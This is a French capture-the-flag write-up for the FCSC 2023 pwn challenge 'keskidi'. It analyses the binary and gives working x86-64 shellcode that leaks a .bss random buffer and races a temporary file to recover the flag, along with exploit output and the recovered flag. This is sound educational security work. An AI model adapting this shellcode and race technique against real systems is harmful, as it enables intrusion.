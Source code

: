 
<p align="center">
  <img src="img/consignes.png" />
</p>

Le binaire du challenge nous est fourni : [keskidi](files/keskidi)

Challenge très amusant, et frustrant, qui m'a demandé pas mal d'ajustements pour sortir le flag.

#### Fonctionnement du code

L'analyse du binaire montre que toutes les sécurités sont activées (+ASLR sur le serveur)

```bash
$ checksec keskidi
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Le binaire réalise plusieurs actions :
- création d'un fichier temporaire dans `/tmp`
- écriture de 0x1000 octets aléatoires dans ce fichier mais aussi dans la .bss
- lancement d'un processus fils (avec des droits réduits) qui va lire une entrée de l'utilisateur et l'exécuter (un shellcode est attendu)
- le processus père lit le fichier `flag.txt`, cherche chaque occurence de caractère du flag dans les 0x1000 octets aléatoires de la .bss et les remplace dans le fichier temporaire par des `0x00`


Le fichier temporaire étant aussi accessible pour le processus fils (et donc notre shellcode), l'idée va être :
- de dumper le random original depuis la .bss
- lire les modifications sur le fichier temporaire
- retrouver dans le random d'origine les caractères remplacés par des `0x00` pour reconstituer le flag.


#### Quelques points d'attention

Après la création du fichier temporaire, un appel à `unlink()` le détruit du file system, cependant (voir le man de la fonction) le filedescriptor reste ouvert et accessible pour le programme tant qu'il s'exécute.

On a une indication sur la taille du flag, qui sera précieuse :

```c
if ((int)sVar3 != 0x46) {
  perror("read: the flag must be 70-char long.");
  exit(1);
}
```

Droits du fichier temporaire : `iVar2 = fchmod(DAT_00104040,0666);`


Calcul des offsets :

Le processus fils appelle une fonction que j'ai appelée `mem_buffer` pour lire puis exécuter notre shellcode. A l'exécution de celui-ci (`CALL RAX`) `rip` est poussé sur la stack et contient l'adresse de l'instruction suivante dans `mem_buffer`.

On pourra s'en servir pour calculer les décalages avec l'adresse de `tmp_file` et l'adresse du random dans la .bss.


### Premier shellcode

- leak du numéro du filedescriptor du fichier temporaire (pour confirmer)
- leak des `0x1000` octets de random utilisés comme "masque"
- boucle infinie pour lire quelques octets du fichier temporaire

```c
if (c != (undefined *)0x0) {
  lseek(tmp_file,(__off_t)(c + -0x104060),0);
  write(tmp_file,&NULL_byte,1);
  syncfs();
  c = c + 1;
}
```

A chaque écriture la tête de lecture va pointer sur l'octer suivant celui écrasé par un NULL byte.

Dans le shellcode, je reviens d'un octet en arrière pour lire le NULL byte et quelques octets random.

Ces quelques octets permettent de rechercher cette même séquence dans le random originial, puis comparer l'octet précédent, s'il est non nul dans le random original il est récupérer comme caractère du flag.


Ce shellcode fonctionnait en local, mais difficilement en remote.

Plusieurs exécution donnaient des morceaux de flag :
```
FCSC5cda17Fc57{a5{ba21c8eb5a{aSa2b293c971704b2e2SFadSb23c38579f{a2F7FC
Cd71d7{S7231c8eb5a29c970423b73a78787d62e3075ed39ec3ab5d3fbc7cC494f4Fef
FCFC{5da751b72cb529c974b37de35e3e5d3fe8}6c
191f5e64e9ef4786964969¶7e79e4150f47f671861f6a5d61917a6a5456Ð6f7adf7b8e
FC431c8eb29c97042373a7d462eC3075ed39e3a5d3fbc4e8}
FSC{5cda71b72431c89c97473a7607a3fbc8}d
FC{5cda7f5ba4231c8eb5a29c97090b0414212353S3b73a7d46292C2e2e3075edScd38
F{a4238eb5a2959423b73a7d46e3075ed39ec0c3b5dbc49464Fe8}6c
FCS5cf5ba472423{31ac8eCeceb5e5aea2Cf7{fCdf5daf23c{141F297373b73a87d462ea3075ed1d39ec3ab5df8}F
F{a751241c85a29c970423b7d34353aSa7d4{4S46C62ec20df{a71S8fC87S7{c71eadf
FC{5cda7f51ba4724231c8eb5a29c9709S0420383e438b8574F1f8bF{bFaSb{9Fbe{b3


FCSC{da7f51ba47242c23b31c{d41S1b5cCfcdc8eb87b590423aedcfc}71F{2
FC524c8ea29c9708423b737aCaCa4a7d5d462e5305ed39ec3ab5{5d5dSd539{S4Fa14e
FCSC{5cdad51ba47243cS8eb5a29c970473a7d463079e39ec3b5d3fbcSdc14e0e8}
FCSC{5cda7f571d1a4{4724231cS8eb515a7a29c93970Sa84e823C3fb73a746e305ed3

FCSC{57f51ba472421{8480e79C0{e0e41d3FafFcfS787F92S2e43639e7be}{
FCSC{5cdafc51{7172d31cd8e2129C704d62e72939ab59dS1Sf4e8}3}e1}d
FCS{5cda7cf5afba2141cFa1bdbaCc237e43d4Ff36305CedaC35bc8c{4SFeCef8dC}C}c}S1CS193
```

En simplifiant le shellcode (`push pop` remplacés par des `mov` directs, `xor` pour mettre à zéro), le rendu était un peu meilleurs.

Je me suis dit que la race condition avec le processus père s'améliorait.

#### Second shellcode

Pour continuer j'ai ajouté un appel système a `sys_nanosleep` dans la boucle du shellcode, et j'ai joué avec la valeur du sleep pour essayer de caler ma boucle sur les opération d'écritures du processus père.

Code complet [exploit3.py](files/exploit3.py)


```python
shellcode="""

// constantes pour nanosleep
  mov r10, QWORD PTR [rsp]
  add r10, 0x2c88
  mov r12, r10
  add r12, 0x08
  mov QWORD PTR [r10], 0x0
  mov QWORD PTR [r12], 10000


// leak tmp_file descriptor
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2c80
  push SYS_write
  pop rax
  syscall

// leak random from .bss
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1000
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2ca0
  push SYS_write
  pop rax
  syscall

  lab:
// fseek(fd,-0x1,1)
  mov rdi, 4
  mov rsi, -0x1
  mov rdx, 1
  mov rax, 0x8
  syscall


// read(fd,rsp,0x5)
  mov rsi, rsp
  mov rdx, 0x5
  xor rax, rax
  syscall

// write(1, rsp, 0x5)
  mov rdi, 1
  mov rax, 1
  syscall

  //nanosleep
  mov rdi, r10
  mov rsi, r12
  mov rax, 35
  syscall
  jmp lab
"""
```


Avec quelques essais, le flag sort correctement :

```bash
python3 exploit3.py REMOTE
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] File descriptor b'\x04'
[*] Random data received : 4096
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2103
```
